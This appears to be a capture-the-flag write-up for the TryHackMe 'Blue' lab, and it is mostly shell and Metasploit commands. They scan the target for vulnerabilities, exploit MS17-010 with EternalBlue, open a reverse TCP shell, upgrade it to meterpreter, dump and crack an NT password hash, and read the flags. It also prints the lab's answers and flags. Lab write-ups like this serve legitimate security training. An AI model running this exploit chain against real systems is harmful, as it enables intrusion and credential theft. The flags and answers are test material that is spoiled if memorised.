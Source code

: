 # THM - Blue

<br>

## Task 1

```shell
mkdir nmap
nmap -sV -sC --script vuln -oN nmap/initial -p- 10.10.30.144
```

### Task 1.2

> 3

### Task 1.3

> ms17-010

<br>

## Task 2

```shell
msfconsole
```

### Task 2.2

```shell
	search ms17-010
```

> exploit/windows/smb/ms17_010_eternalblue

### Task 2.3

```shell
	use exploit/windows/smb/ms17_010_eternalblue
		show options
		set RHOSTS 10.10.129.98
		set LHOST 10.14.27.197
```

> RHOSTS

```shell
		set payload windows/x64/shell/reverse_tcp
		
		run
		
			^Z
			y
```

<br>

## Task 3

### Task 3.1

🧰 https://www.hackingarticles.in/command-shell-to-meterpreter/

> post/multi/manage/shell_to_meterpreter

### Task 3.2

```shell
		back
	use post/multi/manage/shell_to_meterpreter
		show options
```

> SESSION

```shell
		sessions -l
		set SESSION 1
		
		run
		
		sessions
		sessions -i 2
			
			getuid
			
			ps
			
			migrate 1324
```

<br>

## Task 4

### Task 4.1

```shell
			hashdump
```

> Jon

### Task 4.2

```shell
echo "ffb43f0de35be4d9917ac0cc8ad57f8d" > hash.txt
```

🧰 https://crackstation.net/

OR:
```shell
john hash.txt --format=NT --wordlist=../../Tools/KaliWordlists/rockyou.txt
```

> alqfna22

<br>

## Task 5

### Task 5.1

```shell
			pwd
			cd ../../
			ls
			cat flag1.txt
```

> flag{access_the_machine}

### Task 5.2

```shell
			cd Windows/system32/config/
			ls
			cat flag2.txt
```

> flag{sam_database_elevated_access}

### Task 5.3

```shell
			search -f "flag3.txt"
			cd ../../../Users/Jon/Documents/
			cat flag3.txt
```

> flag{admin_documents_can_be_valuable}

<br>

